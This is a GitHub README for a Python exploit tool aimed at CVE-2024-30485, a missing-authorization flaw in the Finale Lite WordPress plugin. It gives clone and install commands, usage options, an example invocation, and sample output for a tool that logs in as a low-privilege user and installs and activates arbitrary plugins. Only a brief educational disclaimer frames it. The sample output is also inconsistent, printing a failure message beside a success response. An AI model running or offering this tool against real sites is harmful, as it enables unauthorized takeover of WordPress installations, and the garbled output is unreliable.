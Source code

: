 # CVE-2024-30485 Exploit

## 📌 Overview

**CVE-2024-30485** is a high-severity vulnerability found in the **Finale Lite** plugin for WordPress (versions <= 2.18.0). The vulnerability allows authenticated users (Subscriber+) to install and activate arbitrary plugins without proper authorization.

- **Severity**: HIGH (CVSS 8.8)
- **Affected Versions**: Finale Lite <= 2.18.0
- **CWE**: CWE-862 (Missing Authorization)

## 🚀 Features

- ✅ Check if a WordPress site is vulnerable
- ✅ Authenticate with valid credentials
- ✅ Extract security nonce
- ✅ Install arbitrary plugins
- ✅ Activate installed plugins

## 🛠 Requirements

- Python 3
- `requests` and `beautifulsoup4` modules
- Target WordPress site with a vulnerable plugin
- Valid WordPress Subscriber+ credentials

## 📜 Installation

```bash
# Clone the repository
git clone https://github.com/Nxploited/CVE-2024-30485.git
cd CVE-2024-30485

# Install dependencies
pip install -r requirements.txt
```

## 🔍 Usage

```bash
usage: CVE-2024-30485.py [-h] -u TARGET -U USERNAME -P PASSWORD [plugin]

Exploit CVE-2024-30485 - Finale Lite | # by Khaled AlEnazi

positional arguments:
  plugin                Plugin slug

options:
  -h, --help            show this help message and exit
  -u TARGET, --url TARGET  WordPress site URL
  -U USERNAME, --username USERNAME  WordPress username
  -P PASSWORD, --password PASSWORD  WordPress password
```

### Example:
```bash
python3 CVE-2024-30485.py -u target -U admin -P admin -- disable-comments
```

## 🖥 Output Example

```bash
[+] Target is vulnerable! Detected version: 2.18.0
[+] Logged in successfully.
[+] Extracted Nonce: 2b46e05bc0
[-] Failed to install plugin.
Server Response: 
<p>Unpacking the package&#8230;</p>
<p>Installing the plugin&#8230;</p>
<p>Plugin installed successfully.</p>
</div>{"success":true,"data":"Plugin installed and activated successfully!"}
```

## ⚠️ Disclaimer

This script is for **educational and security research purposes only**. Unauthorized testing against systems **without permission** is illegal. Use responsibly.

## 🔗 References
- [Official CVE Record](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-30485)
- [WordPress Plugin Page](https://wordpress.org/plugins/finale-woocommerce-sales-countdown-timer-discount/)

*By: Khaled Alenazi (Nxploit)*
